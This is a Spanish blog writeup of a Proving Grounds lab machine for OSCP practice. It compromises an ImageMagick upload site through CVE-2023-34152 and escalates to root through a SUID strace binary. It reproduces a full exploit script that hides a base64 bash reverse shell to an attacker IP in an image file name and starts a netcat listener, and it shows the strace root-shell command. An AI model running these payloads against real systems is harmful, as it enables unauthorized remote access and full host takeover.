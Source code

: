 ```yaml
---
layout: single
title: PG Practice (OSCP Prep.) - Image Writeup
excerpt: "Seguimos alimentando nuestro conocimiento para el OSCP. En esta ocasión, trabajaremos sobre una máquina en la que tendremos que explotar una vulnerabilidad en una versión de ImageMagick que se ejecuta por detrás a través de una web que permite la subida de archivos. Posteriormente, escalaremos privilegios abusando de un binario con permisos SUID en Linux."
date: 2025-04-09
classes: wide
header:
  teaser: /assets/images/pg-writeup-image/pg_writeup_image.webp
  teaser_home_page: true
  icon: /assets/images/linux_logo.webp
categories:
  - Proving Grounds Practice
  - OSCP
tags:
  - ImageMagick Exploit
  - Pentesting
  - Abusing SUID - Privilege Escalation
---
```


Empecemos con la máquina. 

<p align="center">
<img src="/assets/images/pg-writeup-image/start_car.gif">
</p>

# Enumeración 

```bash
nmap -p- -sS -sCV --min-rate 5000 --open -v -n -Pn 192.168.125.178 -oN allports
```

# Puertos:

```bash
Nmap scan report for 192.168.125.178
Host is up (0.041s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: ImageMagick Identifier
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.37 seconds
```

Al tener solo dos puertos, voy directo al más interesante: el puerto 80, que además ya veía en el escaneo de Nmap que estaba corriendo ImageMagick.

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250314003442.png">
</p>


<span style="color:red;">ImageMagick</span> es una suite de software libre usada para crear, editar, convertir o manipular imágenes

Veo algo muy interesante: **la versión**

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250314003914.png">
</p>

# Intrusión - CVE-2023-34152 - ImageMagick

Buscando algo sobre ImageMagick, la versión seguida de la palabra 'exploit' en Google ya me encuentro con algo muy interesante en GitHub.

[CVE-2023-34152](https://github.com/SudoIndividual/CVE-2023-34152)

```python
import base64
import sys
import os
help_message = "Usage: {0} Attacker_IP Attacker_Port".format(sys.argv[0])
if len(sys.argv) != 3:
	print(help_message)
	exit()
LHOST = sys.argv[1]
LPORT = sys.argv[2]
image = b'iVBORw0KGgoAAAANSUhEUgAAAQAAAAABCAAAAAAUMi+rAAAADnRFWHRqdXN0IGZvciB0ZXN0IZvUs4kAAAEMSURBVHicAQEB/v4AAAECAwQFBgcICQoLDA0ODxAREhMUFRYXGBkaGxwdHh8gISIjJCUmJygpKissLS4vMDEyMzQ1Njc4OTo7PD0+P0BBQkNERUZHSElKS0xNTk9QUVJTVFVWV1hZWltcXV5fYGFiY2RlZmdoaWprbG1ub3BxcnN0dXZ3eHl6e3x9fn+AgYKDhIWGh4iJiouMjY6PkJGSk5SVlpeYmZqbnJ2en6ChoqOkpaanqKmqq6ytrq+wsbKztLW2t7i5uru8vb6/wMHCw8TFxsfIycrLzM3Oz9DR0tPU1dbX2Nna29zd3t/g4eLj5OXm5+jp6uvs7e7v8PHy8/T19vf4+fr7/P3+/633f4E21T+hAAAAAElFTkSuQmCC'

def exploit(attacker_IP,attacker_port):
	reverse_shell = ('/bin/bash -c "/bin/bash -i >& /dev/tcp/{0}/{1} 0>&1"'.format(attacker_IP,attacker_port)).encode('ascii')
	payload = (base64.b64encode(reverse_shell)).decode("ascii")
	filename = '|smile"`echo {0}|base64 -d|bash`".png'.format(payload)
	with open(filename, "wb") as fh:
		fh.write(base64.decodebytes(image))
exploit(LHOST,LPORT)
print('Created by SudoIndividual (https://github.com/SudoIndividual)')
print('PNG file (payload) have been created in current directory. Upload the payload to the server')
nc_shell = input('Do you want to run netcat shell? [y/N]')
if nc_shell.lower() == 'y':
	os.system('nc -lvnp {0}'.format(LPORT))
else:
	exit()
```

El script genera un archivo malicioso que escapa del contexto de ImageMagick para inyectar un comando en el sistema, en este caso, una reverse shell.

**POC:**

Ejecutamos el exploit:

```bash
python3 CVE-2023-34152.py <TU-IP> <TU-PUERTO>
```

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250314004035.png">
</p>


Subimos el archivo con extenso nombre: 

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250314004052.png">
</p>

Y estamos dentro como **www-data**

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250409181002.png">
</p>

# Escalada de privilegios 

Una de las formas más comunes de escalar privilegios en Linux es mirar si algún binario tiene la flag o el privilegio <span style="color:red">SUID</span>. Esto quiere decir que ese binario se puede ejecutar como el propietario, siempre que tenga el flag <span style="color:red;">SUID</span> en la parte de los permisos. Si hiciéramos `ls -l`, veríamos en la primera parte, en vez de `rwx`, `-rws`

Los buscaremos con el comando `find`.

```bash
find / -perm -4000 2>/dev/null
```

Y ya veo algo que me llama la atención: el binario `/usr/bin/strace`

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250314004435.png">
</p>

Strace puede ser interesante y no es común de encontrar.

La mejor página que engloba todas las debilidades de permisos relacionadas con binarios en Linux es, sin duda, [GTFOBins](https://gtfobins.github.io).

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250314004548.png">
</p>

Probemos ejecutar esto para adjuntarnos a la SH como `root`.

```bash
www-data@image:/var/www$ /usr/bin/strace -o /dev/null /bin/sh -p
```

Y ya somos `root` 😎

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250409182529.png">
</p>



**Explicación final**: El comando `strace -o /dev/null /bin/sh -p` se utiliza para adjuntar un proceso ya en ejecución con strace, en lugar de iniciar uno nuevo, por tanto como el binario tiene el privilegio <span style="color:red;">SUID</span> y el propietario es `root`, estariamos ejecutando la `sh` como el usuario `root`

Máquina completada 😎

<p align="center">
<img src="/assets/images/leonardo-dicaprio-clapping.gif">
</p>

Gracias por leer.
